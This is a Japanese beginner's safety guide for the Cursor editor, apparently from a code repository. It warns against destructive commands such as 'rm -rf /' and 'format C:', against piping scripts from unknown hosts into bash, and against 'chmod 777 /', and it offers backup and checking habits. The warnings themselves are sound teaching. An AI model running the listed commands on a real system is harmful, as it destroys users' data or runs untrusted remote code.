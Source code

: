 # 🛡️ Cursor初心者向け安全ガイドライン

## 🚨 はじめに - 安全性の重要性

プログラミングは強力なツールですが、誤った操作により重要なファイルを削除したり、システムを破壊したりする可能性があります。このガイドラインは、初心者が安全にCursorを使用するための指針を提供します。　

## 🔴 絶対に避けるべき操作

### 1. ファイル・フォルダの削除系コマンド
```bash
# 🚨 危険度：極高
rm -rf *              # 現在のフォルダ内全削除
rm -rf /              # システム全削除（Linux/Mac）
sudo rm -rf /         # 管理者権限での全削除
del /f /s /q C:\      # Windows全削除
format C:             # ハードドライブ初期化
```

### 2. 不明なソフトウェアのインストール
```bash
# 🚨 危険度：高
curl https://unknown-site.com/script.sh | bash
wget -qO- https://suspicious-site.com/install | sh
npm install -g unknown-package
pip install unknown-package
```

### 3. システム設定の変更
```bash
# 🚨 危険度：高
sudo chmod 777 /      # 全ファイルの権限変更
sudo chown root:root /home/user/  # 所有者変更
regedit               # Windows レジストリ編集
sudo visudo           # sudoers ファイル編集
```

## 🟡 注意が必要な操作

### 1. グローバルインストール
```bash
# ⚠️ 注意：システム全体に影響
npm install -g package-name
pip install --user package-name
brew install package-name
```

### 2. 権限変更
```bash
# ⚠️ 注意：セキュリティに影響
chmod +x script.sh
sudo chown user:group file.txt
```

### 3. ネットワーク設定
```bash
# ⚠️ 注意：接続に影響
sudo ifconfig eth0 down
sudo systemctl stop networking
```

## ✅ 安全な作業手順

### 1. 事前確認
```bash
# 現在の場所を確認
pwd

# ファイル一覧を確認
ls -la

# 操作対象を確認
ls -la target-file.txt
```

### 2. バックアップの作成
```bash
# ファイルのバックアップ
cp important-file.txt important-file.txt.backup

# フォルダのバックアップ
cp -r important-folder important-folder-backup
```

### 3. 段階的実行
```bash
# 一度に少しずつ実行
# 悪い例：rm -rf folder1 folder2 folder3
# 良い例：
rm -rf folder1
# 結果確認
ls -la
rm -rf folder2
# 結果確認
ls -la
```

## 🛡️ Cursorの安全機能

### 1. 自動確認機能
- 危険なコマンドの実行前に確認ダイアログが表示されます
- 「はい」を選択する前に、操作内容を必ず確認してください

### 2. 段階的実行
- 複雑な操作は段階的に分割されます
- 各段階で結果を確認してから次に進んでください

### 3. ロールバック機能
- 問題が発生した場合の復旧方法が提示されます
- 指示に従って安全に元の状態に戻してください

## 📋 安全チェックリスト

### 実行前チェック
- [ ] 現在の作業ディレクトリを確認しましたか？
- [ ] 操作対象のファイル・フォルダを確認しましたか？
- [ ] バックアップが必要なファイルはありますか？
- [ ] 操作の影響範囲を理解していますか？
- [ ] 復旧方法を知っていますか？

### 実行後チェック
- [ ] 期待した結果になっていますか？
- [ ] エラーメッセージは出ていませんか？
- [ ] 他のファイルに影響はありませんか？
- [ ] システムは正常に動作していますか？

## 🆘 トラブル発生時の対処法

### 1. 慌てずに状況確認
```bash
# 現在の状況を確認
pwd
ls -la
ps aux | grep cursor
```

### 2. エラーメッセージの保存
- スクリーンショットを撮影
- エラーメッセージをテキストファイルに保存
- 実行したコマンドを記録

### 3. 安全な復旧手順
1. **作業を停止**：追加の操作は行わない
2. **バックアップから復旧**：可能な場合はバックアップを使用
3. **専門家に相談**：分からない場合は詳しい人に相談
4. **システム復旧**：最悪の場合はシステムの再インストール

## 📚 学習リソース

### 安全なコマンドから学習
```bash
# 安全な確認系コマンド
ls          # ファイル一覧
pwd         # 現在のディレクトリ
whoami      # 現在のユーザー
date        # 現在の日時
df -h       # ディスク使用量
```

### 段階的スキルアップ
1. **初級**：ファイル操作の基本
2. **中級**：スクリプト作成
3. **上級**：システム管理

## 🎯 まとめ

### 重要なポイント
1. **疑問があれば実行しない**
2. **バックアップを忘れない**
3. **段階的に実行する**
4. **結果を必ず確認する**
5. **学習を継続する**

### 安全な学習のために
- 本番環境では実験しない
- 仮想環境やテスト環境を使用
- 定期的にバックアップを取る
- 分からないことは調べる・聞く

---

**⚠️ 重要**: このガイドラインは基本的な安全性を提供しますが、完全な保護を保証するものではありません。常に注意深く操作し、重要なデータは定期的にバックアップを取ってください。

---
最終更新: 2025-07-10 21:57:00 JST 